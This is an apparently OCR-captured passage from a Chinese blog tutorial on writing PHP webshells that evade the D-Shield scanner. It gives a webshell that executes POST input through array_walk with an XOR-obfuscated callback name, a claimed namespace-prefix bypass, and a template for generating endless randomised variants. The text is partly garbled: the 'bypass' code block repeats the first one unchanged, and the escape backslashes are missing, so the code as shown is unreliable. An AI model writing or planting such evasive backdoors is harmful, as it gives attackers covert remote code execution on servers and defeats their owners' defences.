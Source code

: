 > 根据上述特点我们也可以通过这两点思路来构造免杀马：
1，使得木马模板具备免杀性
2，隐藏assert，eval等D盾敏感的关键字

我就随便选择一种：利用回调函数构造的免杀马：

例如随便选择一个回调函数array_walk()即可构造如下木马：

```
&lt;?php
function v01cano($aaa, $bbb)`{`
    $ccc=$bbb;
    array_walk($aaa, $ccc);
`}`
$ddd = 'rG!q-X'^"x13x34x52x14x5fx2c";
v01cano(array($_POST['e']), $ddd);
?&gt;
```

D盾报出了可能是木马级别是二级，原因是识别了array_walk函数。

[![](https://img-blog.csdnimg.cn/20191117194826932.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3YwMWNhbm8=,size_16,color_FFFFFF,t_70)](https://img-blog.csdnimg.cn/20191117194826932.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3YwMWNhbm8=,size_16,color_FFFFFF,t_70)

接下来我们在array_walk前面加上命名空间即可轻松绕过D盾：

```
&lt;?php
function v01cano($aaa, $bbb)`{`
    $ccc=$bbb;
    array_walk($aaa, $ccc);
`}`
$ddd = 'rG!q-X'^"x13x34x52x14x5fx2c";
v01cano(array($_POST['e']), $ddd);
?&gt;
```

[![](https://img-blog.csdnimg.cn/20191117205233575.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3YwMWNhbm8=,size_16,color_FFFFFF,t_70)](https://img-blog.csdnimg.cn/20191117205233575.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3YwMWNhbm8=,size_16,color_FFFFFF,t_70)

那么接下来就可以参考yzddmr6表哥的方法使用我们新的免杀马模板来随机异或无限免杀D盾，只需修改yzddmr6表哥的免杀马模板部分即可。

即参考如上免杀马，修改模板为如下：

```
&lt;?php
function `{`func_name`}`($`{`var_name1`}`, $`{`var_name2`}`)`{``{`
    $`{`var_name3`}`=$`{`var_name2`}`;
    \array_walk($`{`var_name1`}`, $`{`var_name3`}`);
`}``}`
$`{`var_name4`}` = `{`func1`}`;
`{`func_name`}`(array($_POST['e']), $`{`var_name4`}`);
?&gt;
```

